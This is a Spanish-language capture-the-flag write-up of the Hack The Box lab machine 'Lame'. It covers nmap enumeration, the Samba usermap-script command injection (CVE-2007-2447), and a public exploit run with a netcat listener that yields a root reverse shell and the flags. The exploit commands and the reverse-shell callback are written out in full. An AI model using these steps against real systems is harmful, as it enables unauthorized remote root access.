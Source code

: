 ```yaml
---
icon: desktop
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Lame

`Lame` es una máquina Linux sencilla que solo requiere un exploit para obtener acceso root. Fue la primera máquina publicada en Hack The Box y, a menudo, la primera máquina para los nuevos usuarios antes de su retiro.

<figure><img src="../../.gitbook/assets/Lame.png" alt="" width="563"><figcaption></figcaption></figure>

***





```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.10.3 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-26 05:10 CET
Initiating SYN Stealth Scan at 05:10
Scanning 10.10.10.3 [65535 ports]
Discovered open port 139/tcp on 10.10.10.3
Discovered open port 445/tcp on 10.10.10.3
Discovered open port 22/tcp on 10.10.10.3
Discovered open port 21/tcp on 10.10.10.3
SYN Stealth Scan Timing: About 23.46% done; ETC: 05:13 (0:01:41 remaining)
SYN Stealth Scan Timing: About 51.91% done; ETC: 05:12 (0:00:57 remaining)
Discovered open port 3632/tcp on 10.10.10.3
Completed SYN Stealth Scan at 05:12, 101.61s elapsed (65535 total ports)
Nmap scan report for 10.10.10.3
Host is up, received user-set (0.034s latency).
Scanned at 2025-01-26 05:10:58 CET for 102s
Not shown: 65530 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE      REASON
21/tcp   open  ftp          syn-ack ttl 63
22/tcp   open  ssh          syn-ack ttl 63
139/tcp  open  netbios-ssn  syn-ack ttl 63
445/tcp  open  microsoft-ds syn-ack ttl 63
3632/tcp open  distccd      syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 101.73 seconds
           Raw packets sent: 131143 (5.770MB) | Rcvd: 121 (7.908KB)

```



```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.10.3
	[*] Open ports: 21,22,139,445,3632

[*] Ports copied to clipboard
```



```bash
❯ nmap -sCV -p21,22,139,445,3632 10.10.10.3 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-26 05:13 CET
Nmap scan report for 10.10.10.3
Host is up (0.072s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.5
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.4.7 (92%), Linux 2.6.23 (90%), Linux 2.6.8 - 2.6.30 (90%), Linksys WRV54G WAP (89%), Arris TG562G/CT cable modem (88%), Dell Integrated Remote Access Controller (iDRAC6) (88%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (88%), Linux 2.4.21 - 2.4.31 (likely embedded) (88%), Dell iDRAC 6 remote access controller (Linux 2.6) (88%), Linux 2.6.32 - 3.10 (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2025-01-25T23:14:36-05:00
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h30m27s, deviation: 3h32m12s, median: 24s

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   88.43 ms 10.10.16.1
2   88.57 ms 10.10.10.3

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.38 seconds
```





```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```



<figure><img src="../../.gitbook/assets/imagen (265).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://www.incibe.es/incibe-cert/alerta-temprana/vulnerabilidades/cve-2007-2447" %}

{% hint style="danger" %}
La funcionalidad MS-RPC en mbd en Samba 3.0.0 hasta la 3.0.25rc3 permite a atacantes remotos ejecutar comandos de su elección a través del intérprete de comandos (shell) de metacaracteres afectando a la (1) función SamrChangePassword, cuando la opción "secuencia de comandos del mapa del nombre de usuario" smb.conf está activada, y permite a usuarios remotos validados ejecutar comandos a través del intérprete de comandos (shell) de metacaracteres afectando a otras funciones MS-RPC en la (2)impresora remota y (3)gestión de ficheros compartidos.
{% endhint %}





{% embed url="https://github.com/amriunix/CVE-2007-2447" %}

```bash
❯ git clone https://github.com/amriunix/CVE-2007-2447; cd CVE-2007-2447
Clonando en 'CVE-2007-2447'...
remote: Enumerating objects: 11, done.
remote: Total 11 (delta 0), reused 0 (delta 0), pack-reused 11 (from 1)
Recibiendo objetos: 100% (11/11), listo.
Resolviendo deltas: 100% (3/3), listo.

❯ sudo apt install python python-pip

❯ pip install --user pysmb
```



```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```





```bash
❯ python2 usermap_script.py 10.10.10.3 445 10.10.16.5 443
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !
[+] Payload was sent - check netcat !
```



```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.3] 33725

script /dev/null -c bash
root@lame:/# cat /root/root.txt
f00f73d7************************
root@lame:/# ls -l /home
total 16
drwxr-xr-x 2 root    nogroup 4096 Mar 17  2010 ftp
drwxr-xr-x 2 makis   makis   4096 Mar 14  2017 makis
drwxr-xr-x 2 service service 4096 Apr 16  2010 service
drwxr-xr-x 3    1001    1001 4096 May  7  2010 user
root@lame:/# cat /home/makis/user.txt
7b790a73c535f6******************
```
